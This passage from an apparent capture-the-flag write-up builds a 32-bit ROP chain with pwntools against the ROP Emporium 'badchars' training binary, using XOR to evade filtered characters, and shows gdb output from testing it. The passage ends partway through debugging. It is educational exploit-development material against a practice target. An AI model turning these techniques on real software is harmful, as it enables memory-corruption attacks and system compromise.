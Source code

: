# Making the ropchain
I will be using `pwntools` for the exploitation script.
I came up with this script.
```python
from pwn import *

bss_addr = 0x0804a040
xor = p32(0x08048890) # xor BYTE PTR [ebx],cl; ret
mov = p32(0x08048893) # mov DWORD PTR [edi],esi; ret
pop_ei = p32(0x08048899) # pop esi; pop edi; ret
pop_ex = p32(0x08048896) # pop ebx; pop ecx; ret
system = p32(0x80484e0)

# write 'FLAG' to bss_addr
payload = 'A'*44 # padding
payload += pop_ei
payload += 'GALF'
payload += p32(bss_addr)
payload += mov

# xor 'FLAG' with 32 to get 'flag'
payload += pop_ex
payload += p32(bss_addr)
payload += p32(32)
payload += xor
payload += pop_ex
payload += p32(bss_addr+1)
payload += p32(32)
payload += xor
payload += pop_ex
payload += p32(bss_addr+2)
payload += p32(32)
payload += xor
payload += pop_ex
payload += p32(bss_addr+3)
payload += p32(32)
payload += xor

print payload
```
I tested it out immediately, by piping the output of the script into a file.
```
$ python exploit.py > payload
```
Now I opened the executable with `gdb` and set a breakpoint to the xor gadget.
```
$ gdb ./badchars32 -q
Reading symbols from ./badchars32...(no debugging symbols found)...done.
(gdb) b *0x08048890
Breakpoint 1 at 0x8048890
(gdb) r < payload 
Starting program: /home/qh/CTF/ropemporium/badchars/32/badchars32 < payload
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> 
Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) c
```